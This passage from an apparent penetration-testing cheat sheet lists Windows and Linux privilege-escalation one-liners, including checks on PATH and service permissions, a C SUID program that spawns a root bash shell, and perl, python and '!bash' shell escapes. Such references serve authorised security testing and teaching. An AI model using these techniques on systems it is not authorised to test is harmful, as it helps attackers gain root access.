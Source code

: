 http://www.fuzzysecurity.com/tutorials/16.html
__________
### 23. show the current path to see if we can subvert anything
```
echo %path%
```
**- Windows,privilege escalation**
#### References:

http://www.fuzzysecurity.com/tutorials/16.html
__________
### 24. Show service permissions, look for AU|AN|DU|LG, manual AccessChk, may help with bob ;)
```
sc sdshow [service]
```
**- Windows,privilege escalation**
#### References:

http://blogs.msmvps.com/erikr/2007/09/26/set-permissions-on-a-specific-service-windows/
__________
### 25. Simple SUID program  
```
int main(void){setresuid(0, 0, 0);system("/bin/bash");}
```
**- linux,privilege escalation**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 26. perl spawn bash
```
perl -e 'exec "/bin/bash";'
```
**- perl,shell,privilege escalation**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 27. python spawn bash
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
**- python,shell,privilege escalation**
#### References:

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
__________
### 28. Call a shell from a number of programs, VIM, Nmap FTP SFTP etc
```
!bash
```
**- linux,shell,privilege escalation**
#### References:
